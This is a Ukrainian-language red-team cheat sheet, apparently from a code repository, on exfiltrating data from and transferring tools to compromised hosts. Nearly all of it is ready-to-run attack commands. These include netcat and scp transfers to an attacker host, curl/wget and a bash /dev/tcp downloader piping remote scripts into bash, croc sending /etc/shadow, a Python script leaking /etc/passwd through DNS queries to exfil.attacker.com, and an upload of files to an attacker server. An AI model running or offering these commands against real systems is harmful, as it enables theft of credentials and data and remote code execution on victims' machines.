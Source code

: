 
# 🛡️ Exfiltration & Transfer Cheat Sheet (Red Team Edition)

Цей файл містить практичні техніки для ексфільтрації та передачі файлів у Red Team-операціях в умовах обмежених середовищ. Організовано по категоріях із реальними прикладами команд.

---

## 📦 1. Використання Netcat (nc)

### 🔸 Передача файлу з таргета на хост атакуючого:

**На атакуючій машині (отримує файл):**
```bash
nc -lvnp 9000 > received_file
```

**На таргеті (відправляє файл):**
```bash
nc <attacker_ip> 9000 < /path/to/file
```

---

## 📦 2. Завантаження бінарників (Netcat, Nmap, тощо)

### 🔸 Скачування готових утиліт:

**GitHub-репозиторії:**
- https://github.com/andrew-d/static-binaries
- https://github.com/Xhoenix/static-bins
- https://github.com/ernw/static-toolbox

### 🔸 На атакуючій машині (передача утиліти):
```bash
nc -lvnp 9001 < ./ncat
```

### 🔸 На таргеті:
```bash
nc <attacker_ip> 9001 > /tmp/ncat
chmod +x /tmp/ncat
```

---

## 🌐 3. Використання `curl` / `wget`

### 🔸 Завантаження через `curl`:
```bash
curl http://<attacker_ip>/payload.sh --output payload.sh
chmod +x payload.sh
./payload.sh
```

### 🔸 Через `wget`:
```bash
wget http://<attacker_ip>/payload.sh -O payload.sh
chmod +x payload.sh
```

---

## 🛠️ 4. Якщо немає curl/wget — використання Bash TCP (`/dev/tcp`)

```bash
function __wget() {
    : ${DEBUG:=0}
    local URL=$1
    local tag="Connection: close"
    local mark=0

    if [ -z "${URL}" ]; then
        printf "Usage: %s \"URL\" [e.g.: %s http://www.google.com/]" \
               "${FUNCNAME[0]}" "${FUNCNAME[0]}"
        return 1;
    fi
    read proto server path <<<$(echo ${URL//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
    [[ $DEBUG -eq 1 ]] && echo "HOST=$HOST"
    [[ $DEBUG -eq 1 ]] && echo "PORT=$PORT"
    [[ $DEBUG -eq 1 ]] && echo "DOC =$DOC"

    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.1\r\nHost: ${HOST}\r\n${tag}\r\n\r\n" >&3
    while read line; do
        [[ $mark -eq 1 ]] && echo $line
        if [[ "${line}" =~ "${tag}" ]]; then
            mark=1
        fi
    done <&3
    exec 3>&-
}
```

**Використання:**
```bash
__wget http://<attacker_ip>/file.sh | bash
```
Все виконуємо виключно в терміналі.

---

## 🔒 5. Передача через `scp`

### 🔸 З таргета на VPS (атакуючий хост):
```bash
scp /path/file.txt user@attacker_ip:/tmp/file.txt
```

### 🔸 З VPS на таргет:
```bash
scp /tmp/file.txt user@target_ip:/path/file.txt
```

---

## 🧪 6. Виконання скрипта без збереження

```bash
curl http://<attacker_ip>/script.sh | bash
```

або через `wget`:
```bash
wget -qO- http://<attacker_ip>/script.sh | bash
```

---

## 🧬 7. Передача через base64 (у сильно обмеженому середовищі)

**На своїй машині:**
```bash
base64 -w0 payload.sh > payload.b64
```

**На таргеті (вручну):**
```bash
echo "base64_encoded_data_here" > file.txt
base64 -d file.txt > result.sh
chmod +x result.sh
```

---

## 🚀 8. Використання `croc`

### 🔸 Встановлення:
```bash
curl https://getcroc.schollz.com | bash
```

### 🔸 Передача:
```bash
croc send /etc/shadow
```

### 🔸 Прийом:
```bash
croc <code>
```

---

## 📡 9. Ексфільтрація через DNS + tcpdump

### 🔸 На сервері (перехоплення):
```bash
tcpdump -i any port 53 -w exfil.pcap
```

### 🔸 На таргеті:
```python
import base64
import socket
import time

def sanitize_base64(b64str):
    """
    Робить base64-блок DNS-безпечним:
    + → -, / → _, = → (опційно) ~ або прибрати
    """
    return b64str.replace('+', '-').replace('/', '_').replace('=', '')

def exfiltrate_dns_base64(file_path, domain="exfil.attacker.com", delay=0.5):
    with open(file_path, "rb") as f:
        data = f.read()

    # Кодування в base64 → str
    encoded = base64.b64encode(data).decode()

    # Робимо DNS-безпечну версію
    safe_encoded = sanitize_base64(encoded)

    # Розбивка на chunks довжиною ≤ 50 символів
    chunks = [safe_encoded[i:i+50] for i in range(0, len(safe_encoded), 50)]

    print(f"[+] Exfiltrating {len(chunks)} chunks via DNS to {domain}")
    for i, chunk in enumerate(chunks):
        subdomain = f"{chunk}.{domain}"
        try:
            socket.gethostbyname(subdomain)
        except:
            pass
        print(f"[{i+1}/{len(chunks)}] Sent: {subdomain}")
        time.sleep(delay)

if __name__ == "__main__":
    exfiltrate_dns_base64("/etc/passwd", domain="exfil.attacker.com")
```

### 🔸 Просто слухати DNS-пакети:
```bash
tcpdump -i any port 53 -w exfil.pcap
```

### 🔸 Аналіз:
```bash
tshark -r exfil.pcap -Y "dns.qry.name" -T fields -e dns.qry.name
```

---

## 🌃 9. Ексфільтрація через uploadserver

### 🔸 На сервері (перехоплення):
```bash
pip install uploadserver & python3 -m uploadserver
```

### 🔸 На таргеті:
```bash
curl -F "files=@/etc/hostname" http://<attacker_ip>:<port>/upload
```

---
